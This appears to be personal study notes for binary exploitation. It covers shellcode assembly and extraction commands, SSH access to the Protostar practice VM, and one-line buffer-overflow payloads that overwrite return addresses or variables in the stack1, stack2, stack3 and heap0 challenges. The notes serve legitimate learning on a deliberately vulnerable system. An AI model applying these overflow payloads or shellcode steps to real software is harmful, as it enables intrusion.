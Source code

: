 
### Connection Tracking

> conntrack -L

* * *

## Shellcode Utilities / Assembly

Compiling to object code:
> nasm -f elf32 mysh.s -o mysh.o

Linking to generate final binary:
> ld -m elf_i386 mysh.o -o mysh

Getting the machine code:
> objdump -M intel --disassemble mysh.o

Print out the content of the binary file:
> xxd -p -c 20 mysh.o


* * *

## pwn / protostar

### Utilities

Accessing protostar VM (port forwarding set on virtualbox):
[link](https://www.xmodulo.com/access-nat-guest-from-host-virtualbox.html)

> ssh-keygen -f "/home/alex/.ssh/known_hosts" -R "[127.0.0.1]:2221"
> ssh -p 2221 user@127.0.0.1 

Run python code as an argument of a program:
>  ./heap0 `python -c 'print "A"*72+"\x64\x84\x04\x08"'`
Or:
> ./stack1 $(python -c "print 'a' * 64")

### Challenges

#### stack1

61 62 63 64
>  ./stack1 $(python -c "print 'a' * 64 + '\x64\x63\x62\x61' ")
(with correct endianness)

#### stack2

Set env var:
> GREENIE=$(python -c "print 64*'B' +'\x0a\x0d\x0a\x0d'")

#### stack3

> python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
